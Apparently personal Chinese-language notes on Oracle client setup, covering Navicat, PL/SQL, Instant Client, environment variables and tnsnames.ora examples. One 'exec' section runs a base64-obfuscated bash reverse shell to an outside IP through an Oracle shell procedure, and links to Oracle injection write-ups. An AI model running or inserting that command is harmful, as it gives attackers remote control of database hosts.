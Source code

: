 # Oracle
[Navicat 11.2](https://download.navicat.com.cn/download/navicat112_premium_cs_x86.exe)
[Navicat 11.2](https://download.navicat.com.cn/download/navicat112_premium_en_x86.exe)

plsql
instant client 下载
1. 注意x64和x86。  navicat和plsql 对应的x86和x64要一致。
instant client 下载

plsql: help - support info 
查看 tnsfile

instant client解压到 D:\instantclient_11_2
## exec执行
```sh
sqlplus username/password@(DESCRIPTION=(ADDRESS=(PROTOCOL=TCP)(Host=<IP>)(Port=1521))(CONNECT_DATA=(SID=<sidname>)))

set serveroutput on;
exec dbms_java.set_output(131072);
exec shell('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMS4xMS4xMTEuMjMzLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}');
```
## 注入
- https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/
- https://blog.51cto.com/u_11529070/3607477

## 配置环境变量
1.
```bat
:: instantclient
TNS_ADMIN=D:\instantclient_11_2\network\admin
ORACLE_HOME=D:\instantclient_11_2
个别需要添加 lib 目录到 path
:: 数据库版 
setx TNS_ADMIN C:\oraclexe\app\oracle\product\11.2.0\server\network\admin /m 
setx ORACLE_HOME C:\oraclexe\app\oracle\product\11.2.0\server /m 
```

-- PLSQL 会自动在 TNS_ADMIN 中查找tnsnames.ora 文件。

2.
PATH添加 %D:\instantclient_11_2%
```
setx TNS_ADMIN "D:\instantclient_11_2" /m
```
D:\instantclient_11_2创建tnsnames.ora

3.直接命令连接
```
sqlplus "user/pass@(DESCRIPTION=(ADDRESS=(PROTOCOL=TCP)(Host=hostname.network)(Port=1521))(CONNECT_DATA=(SID=remote_SID)))"
sqlplus user/pass@(DESCRIPTION=(ADDRESS=(PROTOCOL=TCP)(Host=hostname.network)(Port=1521))(CONNECT_DATA=(SID=remote_SID)))
sqlplus test/test@(DESCRIPTION=(ADDRESS=(PROTOCOL=TCP)(Host=10.3.1.1)(Port=1521))(CONNECT_DATA=(SID=Normal)))
```


```sql
-- 查看SID
select instance_name from V$instance;
-- 查看 Service name
SELECT value FROM v$parameter WHERE name='service_names';
```

配置示例1
```js
NORMAL_127.0.0.1 =
  (DESCRIPTION =
    (ADDRESS_LIST =
      (ADDRESS = (PROTOCOL = TCP)(HOST = 127.0.0.1)(PORT = 1521))
      (ADDRESS = (PROTOCOL = TCP)(HOST = 10.63.81.127)(PORT = 1521))
    )
    (CONNECT_DATA =
      (SID = Normal)
      (SERVER = DEDICATED)
    )
  )
```
示例2
```js
sit_cc =
  (DESCRIPTION =
    (ADDRESS_LIST =
    (ADDRESS = (PROTOCOL = TCP)(HOST = 192.168.154.1)(PORT = 1521))
  )
  (CONNECT_DATA =
    (SERVER = DEDICATED)
    (SERVICE_NAME = cc)
  )
)
```

### 重启 Oracle
比如修改了normal数据库, 重启服务,
```
OracleOraHome92TNSListener
OracleServiceNormal
```
### PL/SQL 登录
Database: 192.168.200.70:15121/scm


## navicat 配置
1.设置好对应版本的 oci.dll，重启 oci.dll
以上基础上。直接将D:\instantclient_11_2整个文件夹复制到navicat进行覆盖。

网络服务名 根据配置 可能为 TNS

Navicat 11 - Oracle 9i

